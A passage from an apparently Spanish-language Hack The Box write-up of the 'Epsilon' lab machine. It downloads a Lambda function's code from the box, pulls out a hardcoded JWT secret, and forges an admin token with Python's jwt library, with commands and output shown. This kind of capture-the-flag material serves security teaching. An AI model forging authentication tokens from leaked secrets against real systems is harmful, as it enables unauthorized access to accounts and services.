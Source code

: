 Tenemos el **Location** del archivo **.zip** 

```bash
❯ wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
--2024-01-03 13:58:17--  http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
Resolving cloud.epsilon.htb (cloud.epsilon.htb)... 10.10.11.134
Connecting to cloud.epsilon.htb (cloud.epsilon.htb)|10.10.11.134|:80... connected.
HTTP request sent, awaiting response... 200 
Length: 478 [application/zip]
Saving to: ‘code’

code                            100%[=======================================================>]     478  --.-KB/s    in 0s      

2024-01-03 13:58:18 (24.6 MB/s) - ‘code’ saved [478/478]

❯ file code
code: Zip archive data, at least v2.0 to extract, compression method=deflate

❯ mv code code.zip
```

Vemos un script en **Python3** 

```bash
❯ unzip code.zip
Archive:  code.zip
  inflating: lambda_function.py      
```

![](https://i.imgur.com/enOslgm.png)

Ademas tenemos un **secret** 

```bash
secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124
```

Como se usa **JWT** lo mas probable es que el **secret** sea el que necesitamos cuando estabamos en viendo el script *secret.py*

Ahora que tenemos el **secret** podemos construir el **jwt** basandonos en el script que nos comparten como la sintaxis

![](https://i.imgur.com/7X81mJ0.png)

```bash
❯ python3
Python 3.11.7 (main, Dec  8 2023, 14:22:46) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> jwt.encode({'username': 'admin'}, 'RrXCv`mrNe!K!4+5`wYq', algorithm="HS256")
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.WFYEm2-bZZxe2qpoAtRPBaoNekx-oOwueA80zzb3Rc4'
>>> 
```
